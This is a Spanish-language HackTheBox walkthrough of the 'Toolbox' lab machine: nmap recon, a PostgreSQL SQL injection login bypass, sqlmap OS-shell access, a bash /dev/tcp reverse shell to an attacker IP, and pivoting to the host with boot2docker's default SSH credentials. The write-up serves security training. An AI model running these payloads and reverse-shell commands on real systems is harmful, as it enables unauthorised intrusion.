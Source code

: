 ```yaml
---
title: Toolbox
published: 2025-03-11
image: "./logo.png"
tags: [Easy, PostgreSQL Injection (RCE), Abusing boot2docker, Pivoting, OSCP, eWPT]
category: HackTheBox
---
```


## Información Básica

### Técnicas vistas

- PostgreSQL Injection (RCE)
- Abusing boot2docker [Docker-Toolbox]
- Pivoting

### Preparación

- eWPT
- OSCP (Intrusión)

***

## Reconocimiento

Para comenzar con el reconocimiento, empezaremos con un escaneo de nmap hacia los puertos de esta máquina.

```
nmap -p- -sCV -oN nmap_report -vvv 10.10.10.236
```

```
# Nmap 7.95 scan initiated Mon Mar 10 23:21:52 2025 as: /usr/lib/nmap/nmap --privileged -p- -sCV -oN nmap_report -vvv 10.10.10.236
Nmap scan report for 10.10.10.236
Host is up, received echo-reply ttl 127 (0.042s latency).
Scanned at 2025-03-10 23:21:52 CET for 85s
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 FileZilla ftpd 0.9.60 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp    open  ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGMBbGgDiOZZt3bkOSs3/y3cFfYWVGPbw89lYh0OGLZ0J2eQfLPchbOe5jj+FY8uwizKA4ZwPrLe523TXoxTXmoI80LBl3sOPDb9xCBMfpYI72DRMiipB88CYC4vez8lsyofabtC2t
kl6aMLc2zom62cI0jjBpmjLfLDUy1O9f/vFw0H+Qr2nGxr81dIy7E5ca5+lxMW1RP++TZAKK243GqgJLoZFRINIjA9QIgBmD2ZYSyUM3nkd8Kc5EuaaWuhggstXDEXOnxJP7S8p12IJhjtF2Tikcy5pg+qFD128o+PBa19FFc6NtNdaWDA
nt8HvuZUbDgKy+e33ytA2dworB
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIR9i0NqfFj31XNbDraGeI6rcylMmHucBKlMt4kswXRNyjdyXbxkYxHYt/cflrLg+687H7cfQKamV0RbLnqle7E=
|   256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOuBCr4Rn8G4uD6IINB2myKifcJ8tJU03cOPDpS5vz14
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      syn-ack ttl 127 Apache httpd 2.4.38 ((Debian))
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.38 (Debian)
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR/emailAddress=admin@megalogistic.com/organizationalUnitName=Web
| Issuer: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR/emailAddress=admin@megalogistic.com/organizationalUnitName=Web
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-02-18T17:45:56
| Not valid after:  2021-02-17T17:45:56
| MD5:   091b:4c45:c743:a4e0:bdb2:d2aa:d860:f3d0
| SHA-1: 8255:9ba0:3fc7:79e4:f05d:8232:5bdf:a957:8b2b:e3eb
| -----BEGIN CERTIFICATE-----
| MIIECTCCAvGgAwIBAgIUFlHtTkX6tBT3FO+WSrUupHAN9TkwDQYJKoZIhvcNAQEL
| BQAwgZMxCzAJBgNVBAYTAkdSMRMwEQYDVQQIDApTb21lLVN0YXRlMRkwFwYDVQQK
| DBBNZWdhTG9naXN0aWMgTHRkMQwwCgYDVQQLDANXZWIxHzAdBgNVBAMMFmFkbWlu
| Lm1lZ2Fsb2dpc3RpYy5jb20xJTAjBgkqhkiG9w0BCQEWFmFkbWluQG1lZ2Fsb2dp
| c3RpYy5jb20wHhcNMjAwMjE4MTc0NTU2WhcNMjEwMjE3MTc0NTU2WjCBkzELMAkG
| A1UEBhMCR1IxEzARBgNVBAgMClNvbWUtU3RhdGUxGTAXBgNVBAoMEE1lZ2FMb2dp
| c3RpYyBMdGQxDDAKBgNVBAsMA1dlYjEfMB0GA1UEAwwWYWRtaW4ubWVnYWxvZ2lz
| dGljLmNvbTElMCMGCSqGSIb3DQEJARYWYWRtaW5AbWVnYWxvZ2lzdGljLmNvbTCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAN11gJPFfp7ter5VFvgy0fCP
| 56N50Gk0R18C6e7KK3KKtXsjtIRD1Ri2ApmmjC+IwDpI0XgN0iem1NUbXE1HhwxB
| 1HrigkBudq3jQRVM0tVVYDK6+SEiOdehiXbc1Gsih0yUaMty4Ak6Asq4gli1g+ku
| fqtf7r273C8GJEQUHcCMBdXO/K1K2oTK9+bcsIETNuwALtwYbr/nim1RGLYQTtX7
| +CqkNj2Bw5YOxVqTAs5CQ3ZRIXTk/DLgR+bWOxxJKHLPFJfBq7czKkZ7k5gg9dPS
| HnWjW+amHutlRFYgRFeaaqiE+UBDVJDriB1zX1HUC3R1Y8IblatJRxV6tGKoG0cC
| AwEAAaNTMFEwHQYDVR0OBBYEFG4EpOryu7s315zTdLHk2SbghyWvMB8GA1UdIwQY
| MBaAFG4EpOryu7s315zTdLHk2SbghyWvMA8GA1UdEwEB/wQFMAMBAf8wDQYJKoZI
| hvcNAQELBQADggEBAEjzSNoiMG7e/dtnsy59rdMah0dkpRe5Dmi7gZt3IbdgwzSi
| rVOxWtnP3lItPB+/Y8+SOgqr/xUqd3cT1Ebol5ZraeWBvYUfaMG7XE7I98wWiSGW
| 6pqeCJ8cWmVuzI4y0E11BSTHoJQYCcshChahp7bt+TiqdfJLHeigO55W2FGXj1mf
| YGCZ8xnG6jOvXwA5xn8H2RT2teCpejfW/gN47rSCDSZbkcQCDuiak/LRQ71QO8y6
| 2KK6EnYIaO3OnyPHov0CvZdx0XgSJUpQTlMOySuXL+teRHmHPx/r7GOMGP0vpKLs
| OXZaAjnSN1+8nCldxAiaL8u4kxikQkaMKo1/5Ks=
|_-----END CERTIFICATE-----
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: MegaLogistics
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-10T22:23:14
|_  start_date: N/A
|_clock-skew: 2s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 61473/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 12354/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 34913/udp): CLEAN (Failed to receive data)
|   Check 4 (port 23787/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 10 23:23:17 2025 -- 1 IP address (1 host up) scanned in 85.76 seconds
```

Podemos ver bastantes cosas interesantes como en el puerto **21** el inicio de sesión anónimo y el archivo o el dominio del puerto **443** que vamos a añadir al `/etc/hosts`.

### megalogistic.com

Vamos a ver que hay en el dominio `megalogistic.com`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FvJvlPmlubMNA5X8rLZPU%2F1.png?alt=media&#x26;token=ca2a7dd4-cb34-4557-b5eb-e050a8e3821e" alt=""><figcaption></figcaption></figure>

### admin.megalogistic.com

No parece haber nada interesante, vamos a ver ahora `admin.megalogistic.com`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F0iZlKIw2Nlwlh8GHfSRU%2F2.png?alt=media&#x26;token=540f6820-d61c-4043-92d5-c374e963a9e9" alt=""><figcaption></figcaption></figure>

### SQL Injection

En este dominio tenemos un panel de inicio de sesión. Vamos a probar una **inyección SQL**.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2Fuu1uPGEaQUHyPQSBrUhx%2F3.png?alt=media&#x26;token=b4c0069a-264a-40cb-95e2-a8e6062eaa12" alt=""><figcaption></figcaption></figure>

Vemos que al poner una comilla nos salta un error. Si buscamos información sobre `pq_query()` , veremos que es una base de datos **PostgreSQL**. Vamos a intentar saltar la validación de contraseña poniendo `admin' --`.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FmnYLproymcj2NyKY9BC6%2F4.png?alt=media&#x26;token=c5389444-a36d-4de5-a1c6-037b29032737" alt=""><figcaption></figcaption></figure>

Y ya estaríamos dentro del panel **admin**. Al no ver nada interesante, podemos intentar enumerar datos de la base de datos con **sqlmap**.

```
sqlmap -u http://admin.megalogistic.com --batch --force-ssl --dbms=PostgreSQL -X POST --data 'username=tony&password=pass'
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F15RXC8L3HKTUqL9syg7s%2F5.png?alt=media&#x26;token=f90d5a41-ea4d-4976-89d1-d6c836708a17" alt=""><figcaption></figcaption></figure>

Vemos que tiene **4 puntos** diferentes de inyección, vamos a intentar usar el parámetro `--dump` , para intentar dumpear información de la base de datos.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FN1l2gdTTHZ2NhqugxHu4%2F6.png?alt=media&#x26;token=4a8bfd0e-38c3-4ade-aef5-0aba0fc167c5" alt=""><figcaption></figcaption></figure>

Vemos la contraseña en hash de admin, pero no hemos podido crackearla con un diccionario común. Ahora vamos a intentar usar `--os-shell`, para listar aún más información de la máquina.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FKX6XYcWIow4kUcnpnsq7%2F7.png?alt=media&#x26;token=879df1fb-e9b8-4622-8cd1-d7ee7518be24" alt=""><figcaption></figcaption></figure>

Confirmamos que estamos dentro de un Docker Linux.&#x20;

## Explotación

Vamos a crearnos una **revershe shell**.

```
bash -c 'sh -i >& /dev/tcp/10.10.14.15/8889 0>&1'
```

Y nos ponemos a la escucha por **netcat**. Además estabilizaremos la shell con los siguientes comandos:

```
python3 -c 'import pty;pty.spawn("bash")'  
ctrl + z
stty raw echo; fg
ctrl + m
```

Una vez hecho ya podremos obtener la user flag.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FUy6DqlCeaXCdjvTDZWUt%2F8.png?alt=media&#x26;token=aa28f774-c0c1-4d49-9460-bf2b99394604" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios

Buscando información sobre el docker **boot2docker** ([https://github.com/boot2docker/boot2docker](https://github.com/boot2docker/boot2docker)), podemos ver que es un **Docker** que funciona desde la **RAM** y está descontinuado. Buscando un poco en internet podemos ver que las credenciaes de acceso para **SSH** por defecto son **docker**:**tcuser**. Vamos a probarlas.

```
postgres@bc56e3cc55e9:/var/lib/postgresql$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 4817  bytes 704512 (688.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4976  bytes 5316919 (5.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Como nuestra IP es **172.17.0.2** la de la máquina real seguramente sea **172.17.0.1**.

```
ssh docker@172.17.0.1
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F5j2u56B1cdqQloXok3O5%2F9.png?alt=media&#x26;token=a2cb6029-d12d-45b9-a154-e217f4d1176a" alt=""><figcaption></figcaption></figure>

Investigando un poco el directorio **c** contiene el usuario **Administrator** y **Tony**, por lo que simplemente conseguimos la root flag.

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FGOnTgH4H5HLg2XoXQcUk%2F10.png?alt=media&#x26;token=de9d9131-c3d9-45af-8647-e2ded2123947" alt=""><figcaption></figcaption></figure>

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/339)

---
